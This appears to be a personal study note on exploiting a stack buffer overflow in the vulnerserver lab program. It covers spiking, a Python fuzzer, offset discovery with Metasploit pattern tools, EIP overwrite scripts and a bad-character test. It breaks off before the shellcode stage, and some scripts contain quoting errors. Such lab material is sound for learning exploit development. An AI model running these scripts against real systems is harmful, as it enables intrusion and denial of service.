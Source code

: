 # BufferOverFlow

## Spiking

```
nc -nv <windows ip> <port where vulnserver is running>
```

Type Help for available commands

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
gedit stats.spk
```

paste this code init

```
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```
generic_send_tcp <ip> <port> stats.spk 0 0
```

We see that its not vulnerable as it runs completely&#x20;

Lets try another command TRUN

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```
generic_send_tcp <ip> <port> trun.spk 0 0
```

In Immunity debuuger we see that the machine cracks and analysing the data we see that the buffer overflowed to EIP

## Fuzzing

Python Script

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

When the server crashes ctrl+c to stop the script and we see see that in 2700bytes it crashes

We round it off to 3000

Now lets find the EIP value

## Finding The Offset

```
usr/share/metasploit-framework//tools/exploit/pattern_create.rb -l 3000
```

Its print an series of charecters Copy it

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
offset = "<The charecters output from above"
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + offset)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

Run it and when it crashes Got to immunity debugger and COPY the EIP value

```
usr/share/metasploit-framework//tools/exploit/pattern_offset.rb -l 3000 -q <our eip value>
```

Then We get an offset match

## Overwriting EIP

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
shellcode = "A" * <THE OFFSET MATCH NUMBER> + "B" * 4
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + shellcode)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

iF THE eip is 42424242 means that all B came into that and now we control those 4 bytes of EIP.

## Finding Bad Char

{% embed url="https://github.com/cytopia/badchars" %}
Bad Char Generator
{% endembed %}

OR JUST COPY THIS&#x20;

```
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
badchars=("
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
")
shellcode = "A" * <THE OFFSET MATCH NUMBER> + "B" * 4 + badchars
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + shellcode)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

Run it and it break the victim machine

Then right click the ESP and press FOLLOW in DUMP

Then follow through all the charecters and if there are any bad charecters then it doesnt print over there.

Example-

```
01 02 03 B0 05
```

We see 04 is missing meaning thats a bad charecter

Its not important to get it as B0 it can be something else just find something out of space



fINDING THE COORECT MODULE AND GAINING SHELL ACCESS

"""""THE VIDEO IS SAVED IN MY DESKTOP"""'""
